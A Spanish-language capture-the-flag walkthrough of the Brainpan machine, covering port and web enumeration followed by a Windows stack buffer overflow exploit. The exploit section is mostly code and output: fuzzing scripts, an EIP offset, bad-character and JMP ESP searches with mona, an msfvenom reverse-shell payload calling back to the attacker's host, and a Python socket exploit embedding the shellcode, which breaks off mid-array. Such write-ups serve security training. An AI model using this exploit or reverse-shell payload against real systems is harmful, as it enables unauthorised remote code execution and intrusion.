









# Brainpan

## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.201.55.82 -oN allPorts.txt 

PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt
```

```bash
nmap -sC -sV -p9999,10000 -Pn 10.201.55.82 -oN target.txt                                              


PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
| fingerprint-strings: 
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.95%I=7%D=9/30%Time=68DC254C%P=x86_64-pc-linux-gnu%r(NU
SF:LL,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\|
SF:\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\
SF:x20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\x
SF:20\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x
SF:20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x
SF:20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\|
SF:\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x
SF:20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x
SF:20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\x
SF:20\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20_
SF:\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\x
SF:20_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\x
SF:20_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\x
SF:20THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20>>\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.91 seconds
```

En el Puerto 9999, solo encontramos una posible ruta para enviar mensajes, nada útil por ahora.

```bash
nc 10.201.55.82 9999                                     
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              

                          >> hola
                          ACCESS DENIED
```

### HTTP

```bash
whatweb http://10.201.55.82:10000
http://10.201.55.82:10000 [200 OK] Country[RESERVED][ZZ], HTTPServer[SimpleHTTP/0.6 Python/2.7.3], IP[10.201.55.82], Python[2.7.3]
```



Fuzz al sitio web para encontrar quizas rutas ocultas

```bash
gobuster dir -u http://10.201.55.82:10000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.55.82:10000/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/bin                  (Status: 301) [Size: 0] [--> /bin/]
```

Encontramos un ruta /bin onde existe un ejecutable


Vamos a transferir nuestro ejecutable a nuestra máquina para BoF




Ahora vamos comenzar con el proceso de para buscar donde poder inyectar código malicioso.

## BoF

Realizando pruebas hemos logrado un desbordamiento de memoria del ejecutable


### Fuzz

Fase inicial de Fuzzing y tomando el control del registro EIP

```bash
python3 -c "print('A' * 100)" 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

python3 -c "print('A' * 500)" 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Iniciamos el Immunity debugger

```bash
msf-pattern_create -l 700
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A
```


`EIP: 35724134`

Lograremos ubicar donde ocurre el desbordamiento de buffer: 524

```bash
msf-pattern_offset -l 700 -q 35724134
[*] Exact match at offset 524
```

Creamos un PAYLOAD con python

```python
import socket
import sys
import time

ip = "192.168.159.134"
port = 9999
timeout = 5

message = b"A" * 524 + b"B" * 4

try:
    print("Enviando Payload")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((ip, port))
    s.send(message)
    s.recv(1024)
    time.sleep(1)

except:
    print("no se puede conectar al servidor")
    sys.exit()
```

Corremos el Script

```bash
python3 bof.py
Enviado Paylaod...
```

Hemos logrado cambiar el EIP por los caracteres que enviamos


### Shellcode

Asignación de espacio para Shellcode

Modificamos nuestro payload para averiguar donde se dirigir los caracteres de C introducidos y volvemos a correr el Immunity Debugger 

Modificamos nuestro Scrip de python

```python
import socket
import sys
import time

ip = "192.168.159.134"
port = 9999
timeout = 5

message = b"A" * 524 + b"B" * 4 + b"C" * 200

try:
    print("Enviando Payload")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((ip, port))
    s.send(message + b'\r\n')
    s.recv(1024)
    time.sleep(1)

except:
    print("no se puede conectar al servidor")
    sys.exit()
```



### Bytearay

Generación de Bytearrays y detección de Badchars

```shell
# con este comando averiguamos donde guardar workingfolder
!mona config

# aca introducimos donde guardar el bytearay 
!mona config -set workingfolder C:\Users\rodrigo\Desktop\brainstorm

# generamos bytearray
!mona bytearray

# quitar nullbyte
!mona bytearray -cpb '\x00'
```


Nos trasferimos nuestro archivo generado para incluirlo en nuestro archivo de python

```python
import socket
import sys
import time

ip = "192.168.159.134"
port = 9999
timeout = 5

message = b"A" * 524 + b"B" * 4

badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

try:
    print("Enviando Payload")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((ip, port))
    s.send(message + badchars + b'\r\n')
    s.recv(1024)
    time.sleep(1)

except:
    print("no se puede conectar al servidor")
    sys.exit()
```

Volvemos a correr el Immunity Debugger para ver los caracteres en ESP


```bash
# buscamos donde coincida comienza el cambio del ESP
!mona compare -a 0x0022F930

# buscamos la comparación
!mona compare -a 0x0022F930 -f C:\Users\rodrigo\Desktop\brainpan\bytearray.bin
```



### OpCodes

Búsqueda de OpCodes para entrar al ESP y cargar nuestro Shellcode

Ahora que no tenemos BadChar debemos encontrar el punto de salto para el ESP,  el cual es `311712f3`

```bash
!mona jmp -r esp -cpb "\x00" 
```




Vamos a volver a iniciar el ImmunityDebugger agregando un breakpoint en `311712f3` y modificamos nuestro Script 

```python
import socket
import sys
import time

ip = "192.168.159.134"
port = 9999
timeout = 5

message = b"A" * 524 + b"\xf3\x12\x17\x31"

try:
    print("Enviando Payload")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((ip, port))
    s.send(message + b'\r\n')
    s.recv(1024)
    time.sleep(1)

except:
    print("no se puede conectar al servidor")
    sys.exit()
```

Enviamos el Paylaod 

```bash
python3 bof.py
Enviado Paylaod...
```

excelente, hemos logrado el breakpoint y a puntar desde ahora al EIP





Debemos generar un payload con msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.159.128 LPORT=4444 EXITFUNC=thread -b "\x00" -f c  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] = 
"\xbe\xb9\x3e\xad\x24\xd9\xc5\xd9\x74\x24\xf4\x5d\x29\xc9"
"\xb1\x52\x83\xc5\x04\x31\x75\x0e\x03\xcc\x30\x4f\xd1\xd2"
"\xa5\x0d\x1a\x2a\x36\x72\x92\xcf\x07\xb2\xc0\x84\x38\x02"
"\x82\xc8\xb4\xe9\xc6\xf8\x4f\x9f\xce\x0f\xe7\x2a\x29\x3e"
"\xf8\x07\x09\x21\x7a\x5a\x5e\x81\x43\x95\x93\xc0\x84\xc8"
"\x5e\x90\x5d\x86\xcd\x04\xe9\xd2\xcd\xaf\xa1\xf3\x55\x4c"
"\x71\xf5\x74\xc3\x09\xac\x56\xe2\xde\xc4\xde\xfc\x03\xe0"
"\xa9\x77\xf7\x9e\x2b\x51\xc9\x5f\x87\x9c\xe5\xad\xd9\xd9"
"\xc2\x4d\xac\x13\x31\xf3\xb7\xe0\x4b\x2f\x3d\xf2\xec\xa4"
"\xe5\xde\x0d\x68\x73\x95\x02\xc5\xf7\xf1\x06\xd8\xd4\x8a"
"\x33\x51\xdb\x5c\xb2\x21\xf8\x78\x9e\xf2\x61\xd9\x7a\x54"
"\x9d\x39\x25\x09\x3b\x32\xc8\x5e\x36\x19\x85\x93\x7b\xa1"
"\x55\xbc\x0c\xd2\x67\x63\xa7\x7c\xc4\xec\x61\x7b\x2b\xc7"
"\xd6\x13\xd2\xe8\x26\x3a\x11\xbc\x76\x54\xb0\xbd\x1c\xa4"
"\x3d\x68\xb2\xf4\x91\xc3\x73\xa4\x51\xb4\x1b\xae\x5d\xeb"
"\x3c\xd1\xb7\x84\xd7\x28\x50\x6b\x8f\xad\x20\x03\xd2\xd1"
"\x31\x88\x5b\x37\x5b\x20\x0a\xe0\xf4\xd9\x17\x7a\x64\x25"
"\x82\x07\xa6\xad\x21\xf8\x69\x46\x4f\xea\x1e\xa6\x1a\x50"
"\x88\xb9\xb0\xfc\x56\x2b\x5f\xfc\x11\x50\xc8\xab\x76\xa6"
"\x01\x39\x6b\x91\xbb\x5f\x76\x47\x83\xdb\xad\xb4\x0a\xe2"
"\x20\x80\x28\xf4\xfc\x09\x75\xa0\x50\x5c\x23\x1e\x17\x36"
"\x85\xc8\xc1\xe5\x4f\x9c\x94\xc5\x4f\xda\x98\x03\x26\x02"
"\x28\xfa\x7f\x3d\x85\x6a\x88\x46\xfb\x0a\x77\x9d\xbf\x2b"
"\x9a\x37\xca\xc3\x03\xd2\x77\x8e\xb3\x09\xbb\xb7\x37\xbb"
"\x44\x4c\x27\xce\x41\x08\xef\x23\x38\x01\x9a\x43\xef\x22"
"\x8f";
```

Modificamos nuestro Scrip de python

```python
import socket
import sys
import time

ip = "192.168.159.134"
port = 9999
timeout = 5

message = b"A" * 524 + b"\xf3\x12\x17\x31" +b"\x90" * 16

payload = (b"\xbe\xb9\x3e\xad\x24\xd9\xc5\xd9\x74\x24\xf4\x5d\x29\xc9"
b"\xb1\x52\x83\xc5\x04\x31\x75\x0e\x03\xcc\x30\x4f\xd1\xd2"
b"\xa5\x0d\x1a\x2a\x36\x72\x92\xcf\x07\xb2\xc0\x84\x38\x02"
b"\x82\xc8\xb4\xe9\xc6\xf8\x4f\x9f\xce\x0f\xe7\x2a\x29\x3e"
b"\xf8\x07\x09\x21\x7a\x5a\x5e\x81\x43\x95\x93\xc0\x84\xc8"
b"\x5e\x90\x5d\x86\xcd\x04\xe9\xd2\xcd\xaf\xa1\xf3\x55\x4c"
b"\x71\xf5\x74\xc3\x09\xac\x56\xe2\xde\xc4\xde\xfc\x03\xe0"
b"\xa9\x77\xf7\x9e\x2b\x51\xc9\x5f\x87\x9c\xe5\xad\xd9\xd9"
b"\xc2\x4d\xac\x13\x31\xf3\xb7\xe0\x4b\x2f\x3d\xf2\xec\xa4"
b"\xe5\xde\x0d\x68\x73\x95\x02\xc5\xf7\xf1\x06\xd8\xd4\x8a"
b"\x33\x51\xdb\x5c\xb2\x21\xf8\x78\x9e\xf2\x61\xd9\x7a\x54"
b"\x9d\x39\x25\x09\x3b\x32\xc8\x5e\x36\x19\x85\x93\x7b\xa1"
b"\x55\xbc\x0c\xd2\x67\x63\xa7\x7c\xc4\xec\x61\x7b\x2b\xc7"
b"\xd6\x13\xd2\xe8\x26\x3a\x11\xbc\x76\x54\xb0\xbd\x1c\xa4"
b"\x3d\x68\xb2\xf4\x91\xc3\x73\xa4\x51\xb4\x1b\xae\x5d\xeb"
